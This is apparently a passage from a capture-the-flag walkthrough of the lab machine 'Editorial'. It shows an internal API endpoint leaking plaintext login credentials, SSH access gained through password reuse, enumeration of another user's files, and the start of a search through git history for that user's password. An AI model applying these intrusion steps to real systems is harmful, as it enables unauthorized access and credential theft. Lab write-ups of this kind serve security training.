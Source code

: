 ## Remote Code Execution

An API endpoint leaks valid login credentials, `http://127.0.0.1:5000/api/latest/metadata/messages/authors`:

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

That password is reused for the shell account:

```console
$ ssh dev@editorial.htb
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
dev@editorial.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
...
```

## Privilege Escalation

There's another user on the target, `prod`.

```console
dev@editorial:~$ find / -user prod 2>/dev/null
/home/prod
/var/crash/_opt_wsgi.py.1000.crash
```

Unfortunately I can't read that crash dump:

```console
dev@editorial:~$ ls -l /var/crash/_opt_wsgi.py.1000.crash
-rw-r----- 1 prod prod 27187 Jan 31  2023 /var/crash/_opt_wsgi.py.1000.crash
```

But, I find the `prod` password in Git history:

```console
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
```